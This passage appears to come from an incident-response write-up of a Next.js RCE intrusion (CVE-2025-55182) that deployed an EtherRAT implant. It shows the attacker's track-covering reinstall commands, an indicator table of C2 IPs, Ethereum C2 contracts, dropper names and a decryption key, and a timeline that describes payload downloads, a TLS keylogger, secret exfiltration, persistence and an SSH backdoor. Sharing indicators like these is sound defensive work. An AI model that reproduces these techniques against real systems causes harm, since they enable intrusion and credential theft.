

#### Covering Tracks

In a final, highly calculated move, the attacker wiped the existing Next.js installation and forcibly upgraded the server to version `15.3.9`. 

```bash
pwd
grep version /home/maromalix/app/node_modules/next/package.json | head -1
cd /home/maromalix/app && rm -rf node_modules .next package-lock.json && npm install next@15.3.9 --save --legacy-peer-deps && npm install --include=dev --legacy-peer-deps 2>&1 | tail -3
cd /home/maromalix/app && npm run build 2>&1 | tail -5
```

By patching the very vulnerability (CVE-2025-55182) they used to gain entry, the attacker effectively locked the door behind them, preventing competing threat actors or automated scanners from discovering and compromising their newly established foothold.

### <span class="hl">IOCs</span>

| Type | Value | Description |
|------|-------|-------------|
| IP | *63.180.69.24* | Source of CVE-2025-55182 exploitation |
| IP | *91.215.85.42* | Primary EtherRAT C2 |
| IP | *63.176.62.199* | Fallback EtherRAT C2 and payload delivery server |
| IP | *15.116.46.18* | Fallback EtherRAT C2 |
| IP | *3.78.187.211* | Fallback EtherRAT C2 |
| IP | *3.66.227.157* | Fallback EtherRAT C2 |
| IP | *52.59.200.147* | Fallback EtherRAT C2 |
| IP | *3.78.229.44* | Fallback EtherRAT C2 |
| IP | *18.198.1.194* | Fallback EtherRAT C2 |
| IP | *63.179.143.20* | Fallback EtherRAT C2 |
| IP | *35.159.53.179* | Fallback EtherRAT C2 |
| IP | *3.125.41.44* | Fallback EtherRAT C2 |
| IP | *3.125.39.195* | Fallback EtherRAT C2 |
| Contract | 0x22f96d61cf118efabc7c5bf3384734fad2f6ead4` | Primary Ethereum C2 Resolver Contract |
| Contract | 0xb0cbaA51b3D1D36e8E95F4F68dfBd47ED2eaA7a4` | Fallback Ethereum C2 Resolver Contract |
| File | s.sh` | Stage 1 Bash setup and keylogger script |
| File | .kxnzl4mtez.js | Stage 2 JavaScript Dropper |
| File | .7vfgycfd01.js | Stage 3 Main EtherRAT Implant |
| Path | /tmp/.font-unix/.fontconfig | Malicious TLS hook script |
| Path | /tmp/.font-unix/.cache | Stolen SSL/TLS master secrets file |
| Key | a3f8b2c1d4e5f6a7b8c9d0e1f2a3b4c5 | AES-256-CBC Decryption Key |
| SSH Key | maromalix@ether_dev | Attacker's unauthorized public key in authorized_keys |

### <span class="hl">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef persist fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;
    classDef c2 fill:#fff3e0,stroke:#e65100,stroke-width:2px,color:#000;
    classDef exfil fill:#fce4ec,stroke:#880e4f,stroke-width:2px,color:#000;

    A([Attacker Infrastructure]):::default --> B[Nmap SYN Decoy Scan]:::access
    B --> C[18:36 - Exploit CVE-2025-55182 via /login<br/>Next.js RSC Deserialization RCE]:::access
    
    subgraph Stage1 [Stage 1: Deployment]
        C --> D[curl/wget downloads s.sh<br/>from 63.176.62.199:443]:::exec
        D --> E[Creates hidden dir .05bf0e9b<br/>Downloads standalone Node.js]:::exec
        E --> F[Deploys TLS Keylogger<br/>Hooks tls.connect to steal master secrets]:::persist
    end

    subgraph Stage2 [Stage 2 & 3: EtherRAT]
        F --> G[.kxnzl4mtez.js drops<br/>Decrypts AES blob .1d5j6rm2mg2d]:::exec
        G --> H[.7vfgycfd01.js Main Implant executes<br/>Checks locale and begins C2 resolution]:::exec
    end

    subgraph BlockchainC2 [Blockchain C2 Resolution]
        H --> I[18:37 - RPC queries to Public Ethereum Nodes<br/>Reads Primary & Fallback Smart Contracts]:::c2
        I --> J[Attempts Primary 91.215.85.42:3000 -> 404]:::c2
        J --> K[Resolves to Fallback 63.176.62.199:443]:::c2
    end

    subgraph PostExploit [Post-Exploitation & Exfiltration]
        K --> L[Downloads Recon Script<br/>Exfiltrates host config & AWS/SSH paths]:::exfil
        L --> M[Downloads Sensitive File Searcher<br/>Exfiltrates AWS, SSH, and Env secrets]:::exfil
        M --> N[Installs Deep Persistence<br/>systemd, XDG, cron, bashrc, profile]:::persist
        N --> O[Installs SSH Backdoor<br/>maromalix@ether_dev in authorized_keys]:::persist
        O --> P[Upgrades Next.js to 15.3.9<br/>Patches CVE to lock out other attackers]:::exec
    end
